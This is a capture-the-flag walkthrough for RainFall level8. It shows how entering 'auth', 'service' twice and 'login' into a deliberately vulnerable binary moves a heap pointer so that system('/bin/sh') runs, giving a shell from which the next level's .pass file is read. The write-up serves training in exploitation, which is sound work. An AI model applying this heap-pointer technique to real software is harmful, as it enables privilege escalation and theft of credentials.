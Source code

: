 ## Flag8 README: Finding Flag8

After connection on our vm with:
```bash
ssh level8@localhost -p 4242
```

We found a binary named level8. When we run it we obtain:
```sh
level8@RainFall:~$ ./level8
(nil), (nil)
```

Okay next step, decompile this program in order to understand what's the purpose and how to exploit it.

As you can see in our file [source](../source), program just printing adress of buffer auth and buffer service.
We can see on line 28 `system("/bin/sh")`, okay you find our target. If we manage to write into `auth + 8` then the program will run `/bin/sh`

Okay we have our plan but how can we manage to do so ?

So we simply tried the command `'auth '` which gave us:

```sh
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
```

Okay ...

This is the adress of our buffer `auth`. Okay let's try command `service` then:

```sh
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```

service's adress is auth's adress + 16...
okay we need to add 16 again so let's just recall service and see what happen's:

```sh
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
```
Okay now let's try to run command `login`

```sh
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$
```

And VOILA, our shell is runing with level9, as always we just need to **cat** the file **.pass** of level9.


·æ°`·åëà
